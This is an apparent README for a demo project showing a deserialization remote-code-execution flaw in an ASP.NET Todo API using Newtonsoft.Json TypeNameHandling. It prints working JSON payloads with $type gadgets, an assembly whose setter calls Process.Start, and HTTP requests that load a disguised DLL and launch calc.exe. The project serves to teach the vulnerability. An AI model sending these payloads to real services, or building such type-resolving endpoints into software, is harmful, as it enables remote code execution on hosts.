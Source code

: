 # Introduction

This project demonstrates serialization vulnerabilities using Newtonsoft.Json and BinarySerialization. The Todo project is baseed on the starter tutorial available here:

[Create a controller based API](https://learn.microsoft.com/en-us/aspnet/core/tutorials/first-web-api?view=aspnetcore-7.0&tabs=visual-studio)

These examples were assembled based on serialization vulnerabilities highlighted in the [ysoserial.net](https://github.com/pwntester/ysoserial.net) git repo. This example reproduces a remote code execution vulnerability by exploiting the Newtonsoft.Json serializer. 

The [TypeNameHandling property](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm) exposes a deserialization vulnerability then the value is set to anything other than _None_. This informs the deserialization process to resolve a type using the _$type_ property.
``` JSON
{
    "$type": "System.IO.FileInfo, System.IO.FileSystem",
    "fileName": "rce-test.txt"
}
```
This example creates a _System.IO.FIleINfo_ instance and set the _FIleName_ property to "rce_test.txt." This could potentially be used to exfiltrate file information on the host environment. The examples in this repo make use of a generic dictionary to pass malicious payloads. The _TodItem_ class has twp vulnerabile properties. _Metadata_ accepts a _Dictionary<string, object>_ and _BinaryMetadata_ accepts a class that uses a _BinaryFormatter_.

``` C#
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
    public List<MetadataItem>? BinaryMetadata { get; set; }
}

```

This can be exploited using the following message:

``` JSON
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": {
		   "$type": "System.IO.FileInfo, System.IO.FileSystem",
		   "fileName": "rce-test.txt"
	     }
    }
}
```
# How to Reproduce

This project uses a simple ToDo REST API to demonstrate this JSON RCE vulnerability. The MaliciousAssembly project includes this property which calls _Process.Start_ using the property value.

``` C#
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

## Upload malicious file

During complication, this assembly is placed in the bin directory of the ToDo web api with the file name _someimage.png_. This substitutes for a REST API with a file upload endpoint. In a production environment, this could be placed in Azure Blob storage and referenced by a URL.

## Load the malicious file

The first REST API call loads the malicious file using:

``` JSON
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":  {"$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
            "Path":"someimage.png"}
    }
}
```
The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` JSON 
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" }
    }
}
```

These calls are available in the _todo-badpath.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## JSON Vunlnerability

The JSON vulnerability is exposed in Newtonsoft.Json through the use of `TypeNameResolver.`

With .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-6.0#configure-json-deserialization-options-for-body-binding).

